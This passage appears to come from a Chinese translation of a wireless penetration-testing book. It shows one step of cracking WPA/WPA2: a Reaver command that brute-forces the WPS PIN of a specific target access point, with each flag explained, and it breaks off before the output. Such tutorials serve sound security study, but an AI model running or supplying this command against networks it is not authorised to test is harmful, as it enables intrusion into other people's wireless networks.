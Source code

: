     ![Cracking WPA and WPA2 encryption](img/3183OS_04_15.jpg)

3.  Type the following command and press *Enter*:

    ```
    reaver –i mon0 –c 11 –e Johns –b 20:AA:4B:F2:25:4E –vv --no-nacks

    ```

    以下是上述命令的组件：

    *   `-i`：这是无线接口
    *   `-c`：这是频道号
    *   `-e`：设置目标接入点
    *   `-b`：设置目标 MAC 地址
    *   `-vv`：这将设置两次详细选项，以增加详细性，并在尝试时显示每个 pin 码
    *   `--no-nacks`：这确保了目标接入点更好的可靠性

    以下是输出：
